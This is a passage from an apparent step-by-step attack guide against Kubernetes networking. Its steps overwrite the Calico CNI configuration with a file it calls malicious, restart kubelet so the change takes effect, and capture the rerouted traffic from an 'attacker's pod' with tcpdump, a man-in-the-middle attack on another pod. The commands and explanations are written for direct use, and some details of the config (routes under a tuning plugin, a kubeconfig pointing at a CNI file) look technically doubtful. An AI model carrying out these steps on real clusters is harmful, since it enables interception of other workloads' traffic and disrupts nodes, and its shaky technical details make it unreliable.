 **Step 5: Replace the Original Configuration File**

```bash
echo '{  "cniVersion": "0.3.1",  "name": "mynet",  "plugins": [   {    "type": "calico",    "log_level": "info",    "datastore_type": "kubernetes",    "nodename": "k8s-node",    "ipam": {     "type": "calico-ipam"    },    "policy": {     "type": "k8s"    },    "kubernetes": {     "kubeconfig": "/etc/cni/net.d/10-calico.conf"    }   },   {    "type": "tuning",    "someSetting": "arbitrary",    "routes": [     {      "dst": "10.244.2.10/32",      "gw": "10.244.1.5"     }    ]   },   {    "type": "portmap",    "capabilities": {"portMappings": true}   }  ] }' > /etc/cni/net.d/10-calico.conflist
```

*   **Explanation:** This command overwrites the original CNI configuration file with the malicious configuration created in Step 4.  Replace `10-calico.conflist` with the actual filename.
*   **Why:** This activates the malicious configuration, causing traffic to be redirected.
*   **Expected Output:** No output if the command is successful.
*   **What to Look For:**  Verify that the file `/etc/cni/net.d/10-calico.conflist` now contains the malicious configuration.
*   **Variation:**  Use `cat malicious.json > /etc/cni/net.d/10-calico.conflist` if the configuration is stored in a separate file.
*   **Contribution:** Implements the core of the attack by replacing the legitimate configuration with a malicious one.

**Step 6: Trigger a Pod Re-creation or Network Configuration Update**

The changes made to the CNI configuration file will not take effect immediately. You need to trigger a pod re-creation or network configuration update.  One common way to do this is to restart the kubelet service.

```bash
systemctl restart kubelet
```

*   **Explanation:** This command restarts the kubelet service.
*   **Why:** Restarting the kubelet forces it to re-read the CNI configuration and reconfigure the network for the pods. This is the quickest method, although it can disrupt other pods. Another approach is to delete and recreate the target pod, which is less disruptive but might not always be feasible.
*   **Expected Output:** No output if the command is successful. The cluster nodes may experience brief networking interruptions.
*   **What to Look For:**  Verify that the kubelet service restarts without errors.
*   **Variation:** Different Kubernetes distributions may use different methods for restarting the kubelet.  Check the relevant documentation. You may need `sudo` before this command.  If restarting is not possible or desired, deleting and recreating the target pod is an alternative: `kubectl delete pod <target-pod> -n <namespace>` followed by `kubectl apply -f <pod-definition.yaml> -n <namespace>`.
*   **Contribution:** Ensures that the malicious CNI configuration takes effect.

**Step 7: Validate Traffic Redirection (MitM)**

From the attacker's pod (`10.244.1.5`), monitor the network traffic to confirm that traffic destined for `10.244.2.10` is being intercepted. This can be done using tools like `tcpdump` or `wireshark` within the attacker's pod.

```bash
# Inside the attacker's pod (10.244.1.5):
tcpdump -i any -n host 10.244.2.10
```
